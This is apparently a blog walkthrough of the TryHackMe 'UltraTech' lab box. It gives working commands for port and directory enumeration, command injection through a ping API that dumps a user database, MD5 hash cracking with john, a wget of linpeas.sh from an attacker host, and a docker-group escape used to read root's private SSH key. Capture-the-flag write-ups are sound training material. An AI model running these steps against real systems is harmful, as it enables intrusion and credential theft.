 ```yaml
---
layout: post
title: " UltraTech - TryHackMe"
date: 2020-07-15
excerpt: "Walkthrough for UltraTech on TryHackme"
tags: [UltraTech, TryHackMe, node.js API, docker, hash cracking]
comments: false
---
```


UltraTech is a medium difficult box on [TryHackMe](https://www.tryhackme.com). Below are the steps I took to fully compromise this box.

Task 1 just requires deploying the machine, there is no challenge to solve.

### Task 2

First, let's run enumeration, the questions hint that non standard ports are used, so I ran **nmap -p- [machine ip]**. This took a bit to run since it was enumerating all the services on each port over the entire TCP port range. After a while, it returned the following results.

![UltraTech nmap1](/assets/img/UltraTech1.png)

Now lets run **nmap -A -p 21,22,8081,31331,35143 [machine ip]**  to enumerate these services further, which gets you the following information.

![UltraTech nmap2](/assets/img/UltraTech2.png)

We should now be able to answer some of the questions for this task. **Question 1** is shown above, which is node.js. **Question 2** is going to be the port Apache is running on that is not standard, which is the answer to **Question 3**.

**Question 4** is also in the scan above, which includes the name of the OS.

**Question 5** probably has several ways to figure it out, but I decided to enumerate the website on port 31331 to see what all was there. I enumerated the website with **gobuster dir -u http://[machine ip]:31331 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50**. Within a few moments, several directories showed up.

![UltraTech gobuster](/assets/img/UltraTech3.png)

Let's start looking at these directories. Since we know node.js is running, let's go to the **/js** directory first. 

![](/assets/img/UltraTech4.png)

This lists 3 different JavaScript files. Let's take a look at api.js.

![UltraTech api.js](/assets/img/UltraTech5.png)

This provides us with the answer to the question related to routes, as this script references port 8081 (where Node.js is setup). The two URLs indicated above are the routes that are in place, so the answer to this question is **2**. The other two files are just JavaScript scripts, and do not reference Node.js at all.

### Task 3

Now that we know the routes, it appears one of them is used for authentication. Let's see if we can figure out how to login. Visiting **http://[machine ip]:8081/auth** tells you you must specify a login and a password. Let's add in these two fields (login and password) to a request and see what happens. Let's use **http://[machine-ip]/auth?login=root&password=root**. It appears this request is in the correct format, as it tells us we're using invalid credentials.

![UltraTech auth](/assets/img/UltraTech6.png)

Next, let's look at the other route of **http://[machine ip]:8081/ping?ip=**. Let's use the backtick here to and enter in another command to see if we can perform command injection. I elected to use **http://[machine ip]:8081/ping?ip=\`whoami\`**.

![UltraTech node.js command injection whoami](/assets/img/UltraTech7.png)

Success! It returned a user of **www**. Next, let's see what's in the current directory with **http://[machine ip]:8081/ping?ip=\`ls\`**.

![UltraTech node.js command injection ls](/assets/img/UltraTech8.png)

This would be the answer to **Question 1** for Task 3.

It appears there is a sqlite database present. Let's view the contents with **http://[machine ip]:8081/ping?ip=\`cat [database name]\`**.

![UltraTech node.js command injection cat](/assets/img/UltraTech9.png)

This provides you with the hashes for two users, **r00t**, and **admin**. The hash for r00t is the answer to **Question 2** for Task 3Let's save their hashes to a text file named **hashes.txt**, one per line and see if we can crack them. Once saved, let's run the following command **john hashes.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt**.

![UltraTech john](/assets/img/UltraTech10.png)

This will give you the credentials for both users. The password for r00t is the answer to **Question 3** for Task 3.

### Task 4

Next,  let's connect with **ssh r00t@[machine ip]** and enter the password we had cracked a few moments ago. The final task wants us to get root's first 9 characters of their private SSH key. Let's spin up a python server locally on our attacker pc with **python3 -m http.server**. From the victim PC, type in **wget http://[attacker machine ip]:8000/linpeas.sh**. Once downloaded, run **chmod +x linpeas.sh** and run it with **./linpeas.sh**.

![UltraTech linpeas.sh](/assets/img/UltraTech13.png)

Right at the very beginning, we find out that r00t is a member of the docker group. We could potentially escalate to root with this by following what is on the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) site for docker. However, since this machine doesn't have internet access, let's first list what images are available locally with **docker image ls**

![UltraTech docker image ls](/assets/img/UltraTech14.png)

Now, let's modify the command on the GTFOBins site above from docker run -v /:/mnt --rm -it alpine chroot /mnt sh to **docker run -v /:/mnt --rm -it bash chroot /mnt sh**. From here, navigate to the ssh keys folder with root with **cd root, cd .ssh** and **cat id_rsa** to answer **Question 1** for Task 4 and complete this box.

![](/assets/img/UltraTech15.png)